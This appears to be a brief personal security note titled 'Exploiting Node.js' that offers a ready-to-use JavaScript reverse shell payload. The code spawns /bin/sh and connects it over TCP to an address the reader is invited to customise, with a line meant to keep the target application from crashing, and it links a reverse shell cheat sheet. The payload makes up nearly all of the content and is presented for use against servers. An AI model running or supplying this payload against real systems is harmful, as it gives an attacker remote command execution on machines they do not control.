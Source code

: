 # Exploiting Node.js

## Reverse Shell

The hard part of popping a reverse shell on a Node.js server is tricking the server to load your code. If you can figure out how to do that, this seems to produce a reliable connection:

```javascript
(function(){
	var net = require("net"),
	    cp  = require("child_process"),
	    sh = cp.spawn("/bin/sh", []);
	var client = new net.Socket();
	client.connect(1234, "127.0.0.1", function(){ // Customize port and IP address to taste
		client.pipe(sh.stdin);
		sh.stdout.pipe(client);
		sh.stderr.pipe(client);
	});
	return /a/; // Prevents the Node.js application fro
m crashing
})();
```

## References

* [Reverse Shell Cheat Sheet](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md)

- - - -

👤 Nathan Acks  
📅 October 9, 2021
